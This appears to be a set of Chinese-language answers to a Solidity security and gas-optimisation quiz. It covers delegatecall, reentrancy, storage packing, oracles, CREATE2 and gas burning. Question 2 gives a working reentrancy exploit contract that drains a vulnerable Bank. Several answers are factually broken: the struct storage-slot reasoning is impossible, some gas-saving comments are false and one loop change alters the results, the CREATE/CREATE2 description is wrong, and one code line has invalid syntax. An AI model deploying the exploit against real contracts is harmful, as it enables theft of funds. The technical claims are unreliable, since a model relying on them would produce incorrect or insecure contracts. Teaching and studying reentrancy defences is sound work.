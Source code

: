 ## 第一题
delegatecall是一种低级的合约交互接口，它可以让一个合约将某个函数调用委托给另一个合约，但是在被委托合约的上下文中执行。被委托合约可以修改委托合约的存储和状态，而不是自己的。同时，delegatecall还保留了原始调用的上下文，也就是说msg.sender, msg.value和msg.data等变量不会改变。

delegatecall的一个主要用途是实现可升级的代理合约。基本思路是将合约的状态和逻辑分离，这样合约的逻辑可以升级而不影响状态。代理合约（存储状态）通过delegatecall将执行委托给逻辑合约（存储业务逻辑）。代理合约保持不变，但可以指向新的逻辑合约，从而模拟协议的升级。


## 第二题
漏洞是重入攻击。
重入攻击是指一个函数向另一个不可信的合约发起外部调用。然后，不可信的合约递归地调用原始函数，并试图耗尽资金。在这个合约里，withdraw()函数将余额设置为零之前，将余额发送给msg.sender。如果msg.sender是一个恶意的合约，它有一个fallback函数，再次调用withdraw()，它就可以反复从Bank合约中提取资金，直到耗尽gas或者Bank合约中的资金。

一个简单的利用合约：
```solidity
contract Exploit {
    Bank bank;

    constructor(Bank _bank) {
        bank = _bank;
    }

    function attack() public payable {
        // 存入一定数量的以太币
        bank.deposit{value: msg.value}();
        // 提取相同数量的以太币
        bank.withdraw();
    }

    // 回退函数，再次调用withdraw
    fallback() external payable {
        if (address(bank).balance >= msg.value) {
            bank.withdraw();
        }
    }
}
```

## 第三题
1. 使用transfer或send代替call来发送资金，因为它们只允许2300 gas，不足以执行递归调用。
```solidity
contract Bank {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 balance = balances[msg.sender];
        require(balance > 0);
        payable (msg.sender).transfer(balance);
        balances[msg.sender] = 0;
    }
}
```
2. 使用互斥锁或状态变量来确保函数只能被调用一次。
```solidity
contract Bank {
    mapping(address => uint) public balances;
    bool private locked;

    modifier noReentrancy() {
        require(!locked, "Reentrant call");
        locked = true;
        _;
        locked = false;
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public noReentrancy {
        uint256 balance = balances[msg.sender];
        require(balance > 0);
        (bool sent, ) = msg.sender.call{value: balance}("");
        require(sent, "send ETH failed");
        balances[msg.sender] = 0;
    }
}
```
3. 遵循检查-生效-交互（Checks-Effects-Interactions）模式，即先检查条件，再更新状态，最后与外部合约交互。
```solidity
contract Bank {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 balance = balances[msg.sender];
        require(balance > 0);
        // update state before interaction
        balances[msg.sender] = 0;
        (bool sent, ) = msg.sender.call{value: balance}("");
        require(sent, "send ETH failed");
    }
}
```
## 第四题
Struct2 比 Struct1 更节省 gas。
Struct1 和 Struct2 的存储方式不同。Struct1 会占用两个存储槽，因为它的第一个字段 uint32 x 不能和第二个字段 uint256 y 共享一个槽，所以它会占用一个槽的前 4 个字节，而 uint256 y 和 int64 z 会占用另一个槽的前 40 个字节。Struct2 只会占用一个存储槽，因为它的第一个字段 uint256 y 可以和第二个字段 uint32 x 共享一个槽，所以它们会占用一个槽的前 36 个字节，而 int64 z 会占用同一个槽的后 8 个字节

## 第五题
Chainlink和Redstone都是去中心化的区块链预言机网络，它们可以为智能合约提供来自外部数据源的信息，比如币价、天气、体育等。它们的主要区别在于存储和验证数据的方式。

Chainlink将数据存储在交易性区块链上，比如以太坊，这意味着它需要支付高昂的gas费用，并且受到交易速度的限制。Chainlink通过使用可信节点、优质数据和密码学证明来保证数据的可靠性和可用性。

Redstone则利用Arweave区块链来创建低成本的存储，同时提供完整的历史审计记录。Arweave的存储成本比以太坊低一百万倍，使得Redstone能够为客户提供基于可持续的长期商业模式的低成本服务。Redstone通过使用元交易模式来验证信息的完整性，只在链上检查签名。如果出现数据质量的争议，Redstone还提供了一个去中心化的治理机制来解决纠纷

| 特点 | Chainlink | Redstone |
| --- | --- | --- |
| 数据存储 | 交易性区块链 | Arweave区块链 |
| 存储成本 | 高 | 低 |
| 存储可靠性 | 高 | 高 |
| 存储可审计性 | 有限 | 完整 |
| 数据验证 | 密码学证明 | 签名检查 |
| 验证成本 | 高 | 低 |
| 验证速度 | 慢 | 快 |
| 数据质量保障 | 可信节点和优质数据源 | 去中心化治理和保险机制 |

## 第六题
```solidity
function divRoundUp(int256 a, int256 b) public returns (int256) {
    require(b != 0, "Cannot divide by zero");
    require(a != type(int256).min || b != -1, "Overflow");
    int256 q = a / b;
    int256 r = a % b;
    if (r != 0 && (r > 0) == (b > 0)) {
        q += 1;
    }
    return q;
}
```

## 第七题
```solidity
contract GasOptimization {
    uint256 public total;
    function someFunction(uint[] memory input) external {
        // 1. 使用uint8类型代替uint256类型，因为输入数组的元素都小于256，这样可以节省存储空间和gas
        uint8 threshold = 107;
        // 2. 使用uint16类型代替uint256类型，因为total的最大值不会超过input数组长度乘以threshold，这样也可以节省存储空间和gas
        uint16 newTotal = 0;
        // 3. 使用for循环的第三个参数来增加i的值，而不是在循环体中使用i += 1，这样可以减少一次加法运算和赋值运算，节省gas
        for (uint256 i = 0; i < input.length; i += 2) {
            // 4. 使用位运算代替模运算，因为位运算更快更便宜，只需要检查最低位是否为0即可判断是否为偶数
            bool isEven = input[i] & 1 == 0;
            // 5. 使用隐式转换代替显式转换，因为隐式转换不会消耗gas，而显式转换会消耗gas
            bool isLessThanThreshold = input[i] < threshold;
            if (isEven && isLessThanThreshold) {
                // 6. 使用局部变量newTotal代替状态变量total，因为读写状态变量会消耗更多的gas，而读写局部变量只会消耗内存空间
                newTotal += uint16(input[i]);
            }
        }
        // 7. 在循环结束后，一次性更新状态变量total，减少状态变量的写入次数
        total = newTotal;
    }
}
```

## 第八题
条件：
1. 确保在测试网上部署的合约有一个fallback函数，可以在收到以太币时执行任意代码。
2. 确保在测试网上部署的合约使用了CREATE2 opcode来生成地址A1，而不是CREATE opcode。CREATE2 opcode可以根据盐值（salt）来生成不同的地址，而CREATE opcode则只能根据交易哈希来生成地址。
3. 找到一个合适的盐值（salt），使得在主网上使用CREATE2 opcode和相同的构造函数代码时，也能生成同样的地址A1。
怎么做：
满足上述条件后将合约部署到主网，并向地址A1发送一些特殊格式的数据，触发fallback函数，并且利用CREATE2 opcode和盐值（salt）来部署一个新的合约，这个合约可以让您取回地址A1中的以太币。


## 第九题
1. 编写一个不做任何修改storage的但会消耗大量gas的函数，例如无限循环，然后手动设置很高的gas price 和 gas limit 以确保它能被矿工打包并执行
2. 调用一个肯定会执行失败的函数，譬如这个函数中间做了很多操作，并消耗大量的gas,最后结束时，判断require(false,'Just fail'!)